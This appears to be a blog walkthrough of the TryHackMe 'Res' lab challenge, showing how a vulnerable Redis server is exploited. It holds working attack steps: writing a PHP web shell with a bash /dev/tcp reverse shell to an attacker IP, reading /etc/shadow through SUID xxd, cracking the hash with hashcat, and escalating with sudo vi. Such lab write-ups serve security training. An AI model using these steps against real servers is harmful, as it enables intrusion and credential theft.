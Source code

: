 ```yaml
---

title: Walkthrough - Res
published: true
---
```


SGBD, Enumeration, RCE, Cracking. Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

![0xskar](/assets/redis01.png)

[https://tryhackme.com/room/res](https://tryhackme.com/room/res)

* * *

## Scan the machine, how many ports are open?

- ``nmap -Pn -sS -p- 10.10.17.249 -vvv ``
- ``nmap -sC -sV -sT -O -p80,6379 10.10.17.249``

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 5.4 (94%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Android 5.1 (92%), Linux 3.2 - 3.16 (92%), Linux 3.2 - 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

* * * 

## What's is the database management system installed on the server?

- Redis

* * * 

## What port is the database management system running on?

- 6379

* * * 

## What's is the version of management system installed on the server?

- 6.0.7

* * * 

## Compromise the machine and locate user.txt

- ``redis-cli -h 10.10.17.249`` - to connect to the redis server
- ``info server`` looking here in the server info we find a working directory for redis... ``executable:/home/vianka/redis-stable/src/redis-server``
-  because we can see the users home directory we should be able to import a genetateed rsa key into redis and login to it there.

1. Generate public key ``ssh-keygen -t rsa -f rsa``
2. Write the public key to a file ``(echo -e "\n\n"; cat ./rsa.pub; echo -e "\n\n") > foo.txt``
3. Import the file into redis ``cat foo.txt | redis-cli -h 10.10.17.249 -x set crackit``
4. Save the public key to the authorized_keys file on the redis server
5. whelp this doesnt work... The .ssh directory doesnt seem to be accesssible

So trying some other things our I end up finding the web directory.

```
10.10.17.249:6379> config set dir /var/www/html
OK
10.10.17.249:6379> config set dbfilename redis.php
OK
10.10.17.249:6379> set test "<?php phpinfo(); ?>"
OK
10.10.17.249:6379> save
OK
```

do we can vidit this page now on the webserver. lets alter it do we can get a php reverse shell

```
10.10.131.125:6379> config set dir /var/www/html
OK
10.10.131.125:6379> config set dbfilename shell.php
OK
10.10.131.125:6379> set test "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/10.2.127.225/6666 0>&1'\"); ?>"
OK
10.10.131.125:6379> save
OK
```

and catch the reverse shell

```
┌──(0xskar㉿cocokali)-[~]
└─$ pwncat -l 10.2.127.225 6666
whoami
www-data
ls -las
total 24
 4 drwxrwxrwx 2 root   root    4096 Aug  9 13:49 .
 4 drwxr-xr-x 3 root   root    4096 Sep  2  2020 ..
12 -rw-r--r-- 1 root   root   11321 Sep  2  2020 index.html
 4 -rw-r--r-- 1 vianka vianka   179 Aug  9 13:49 shell.php
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ 
```

![0xskar](/assets/redis02.png)

* * * 

## What is the local user account password?

```
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
```

If ``xxd`` has the suid bit set we can read files with it.

- ``xxd /etc/shadow | xxd -r``
- ``unshadow`` this file and then hashcat
- ``hashcat -m 1800 creds.unshadow /usr/share/seclists/Passwords/rockyou.txt ``

```
Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:beautiful1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
```

* * * 

## Escalate privileges and obtain root.txt

- ``su vianka``

```
sudo -l
[sudo] password for vianka: beautiful1

Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

Easy enough...

- ``sudo vi -c ':!/bin/sh' /dev/null``

![0xskar](/assets/res03.png)

* * * 

